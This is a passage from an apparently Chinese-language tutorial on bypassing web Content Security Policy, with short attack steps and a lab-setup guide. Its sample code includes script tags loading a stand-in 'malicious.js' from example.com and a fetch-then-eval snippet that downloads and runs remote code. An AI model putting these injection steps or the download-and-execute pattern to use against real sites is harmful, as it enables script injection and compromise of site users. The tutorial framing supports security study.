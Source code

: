 **示例代码**：
```html
<script src="https://example.com/malicious.js" nonce="123"></script>
```

### 4.2 CSP策略继承漏洞利用

**技术原理**：某些情况下，CSP策略的继承存在漏洞，攻击者可以利用这些漏洞绕过CSP。

**攻击步骤**：
1. 分析目标页面的CSP策略继承漏洞。
2. 构造恶意请求，利用漏洞绕过CSP。

**示例代码**：
```html
<iframe src="https://example.com/vulnerable.html"></iframe>
```

### 4.3 CSP策略与CORS结合利用

**技术原理**：攻击者可以通过结合CSP策略和跨域资源共享（CORS）技术，绕过CSP策略。

**攻击步骤**：
1. 分析目标页面的CSP和CORS配置。
2. 构造恶意请求，利用CORS绕过CSP。

**示例代码**：
```javascript
fetch('https://example.com/malicious.js')
  .then(response => response.text())
  .then(data => eval(data));
```

## 5. 攻击步骤和实验环境搭建指南

### 5.1 实验环境搭建

**工具**：
- Web服务器（如Apache或Nginx）
- 浏览器（如Chrome或Firefox）
- 调试工具（如Burp Suite或Chrome DevTools）

**步骤**：
1. 配置Web服务器，设置CSP策略。
2. 在浏览器中访问目标页面，观察CSP策略的效果。
3. 使用调试工具分析CSP策略的配置和解析。

### 5.2 攻击步骤

**步骤**：
1. 分析目标页面的CSP策略配置。
2. 选择合适的绕过技术，构造恶意请求。
3. 在目标页面中插入恶意代码，观察是否绕过CSP。

**示例**：
```html
<script src="https://example.com/malicious.js"></script>
```
